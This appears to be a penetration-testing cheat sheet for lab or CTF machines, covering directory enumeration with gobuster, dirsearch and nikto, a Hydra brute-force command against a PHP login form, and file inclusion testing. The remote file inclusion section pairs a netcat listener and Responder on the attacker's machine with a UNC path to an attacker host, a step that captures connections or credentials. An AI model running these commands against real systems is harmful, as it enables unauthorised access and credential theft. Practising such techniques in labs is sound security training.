 ## Enumeration

### Gobuster
```
gobuster dir -u https://10.11.1.35 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50

gobuster dir -u http://10.11.1.72 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -s '200,204,301,302,307,403,500' -e

```
### Dirsearch
https://github.com/maurosoria/dirsearch
```
python3 dirsearch.py -u <URL> -e <EXTENSION>

//search for txt files
python3 dirsearch.py -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -e txt    
```

### Nikto

```
nikto -h IP_ADDR
```

## Bruteforce

## Hydra

```
//Bruteforce login form (Invalid is the error message return when a wrong password is provided"
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```

### LOCAL FILE INCLUSION

when there is something like ```http://10.10.10.151/blog/?lang=blog-en.php```
if the host is Windows we can try to access this file in order to validate our findings:
```
http://10.10.10.151/blog/?lang=/windows/system32/license.rtf

```
### REMOTE FILE INCLUSION

If the local file inclusion works we can try a remote one

attacker
```
nc -lvp 445

//extra 
sudo responder -I eth0  
```
website
```
http://10.10.10.151/blog/?lang=\\10.10.14.7\test\testFILE
```

